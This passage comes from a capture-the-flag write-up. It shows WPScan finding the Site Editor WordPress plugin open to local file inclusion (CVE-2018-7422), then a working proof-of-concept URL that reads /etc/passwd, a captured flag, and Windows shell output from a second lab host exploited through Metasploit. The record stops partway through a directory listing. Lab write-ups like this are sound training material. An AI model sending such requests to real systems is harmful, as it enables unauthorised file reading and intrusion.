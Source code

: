      | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
     |     References:
     |      - https://wpvulndb.com/vulnerabilities/9044
     |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
     |      - https://seclists.org/fulldisclosure/2018/Mar/40
     |      - https://github.com/SiteEditor/editor/issues/2
     |
     | Version: 1.1.1 (80% confidence)
     | Detected By: Readme - Stable Tag (Aggressive Detection)
     |  - http://10.100.229.26/wp-content/plugins/site-editor/readme.txt
    ```


2. Get PoC
    - Source: https://seclists.org/fulldisclosure/2018/Mar/40

    - http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

3. LFI
    - http://10.100.229.26/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
    
    ![](https://i.imgur.com/eUS8RBA.png)

4. **flag{flag95276ca8d6f}**
    

### [10pts] 綜合題型-03
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.10 - 10.100.229.19)內的任何一台弱點主機，並找出存在於網站系統內的Flag
- 答案格式：
    - flag{主機系統內的flag}

#### 解法
https://www.hackercoolmagazine.com/hacking-easy-file-sharing-http-server-metasploit/

```
C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3C20-DAF1

 Directory of C:\Documents and Settings

04/26/2020  05:50 PM    <DIR>          .
04/26/2020  05:50 PM    <DIR>          ..
07/19/2017  07:55 PM    <DIR>          Administrator
04/26/2020  05:50 PM    <DIR>          All Users
04/26/2020  07:31 PM    <DIR>          ec2-user
04/26/2020  05:50 PM    <DIR>          Files
               0 File(s)              0 bytes
               6 Dir(s)  81,487,785,984 bytes free

C:\Documents and Settings>cd Files
cd Files

C:\Documents and Settings\Files>dir
```